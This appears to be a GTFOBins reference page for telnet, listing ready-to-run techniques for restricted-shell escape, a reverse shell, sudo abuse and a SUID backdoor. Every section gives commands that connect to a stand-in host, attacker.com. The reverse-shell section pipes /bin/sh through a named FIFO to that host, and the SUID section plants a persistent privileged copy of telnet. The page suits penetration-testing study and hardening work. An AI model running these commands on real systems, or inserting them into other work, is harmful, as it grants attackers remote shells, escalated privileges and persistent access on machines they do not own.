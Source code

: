 # GTFOBin: telnet

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

BSD version only. Needs to be connected first.

```
RHOST=attacker.com
RPORT=12345
telnet $RHOST $RPORT
^]
!/bin/sh
```

## Reverse shell

It can send back a reverse shell to a listening attacker to open a remote network access.

Run `nc -l -p 12345` on the attacker box to receive the shell.

```
RHOST=attacker.com
RPORT=12345
TF=$(mktemp -u)
mkfifo $TF && telnet $RHOST $RPORT 0<$TF | /bin/sh 1>$TF
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

BSD version only. Needs to be connected first.

```
RHOST=attacker.com
RPORT=12345
sudo telnet $RHOST $RPORT
^]
!/bin/sh
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

BSD version only. Needs to be connected first.

```
sudo install -m =xs $(which telnet) .

RHOST=attacker.com
RPORT=12345
./telnet $RHOST $RPORT
^]
!/bin/sh
```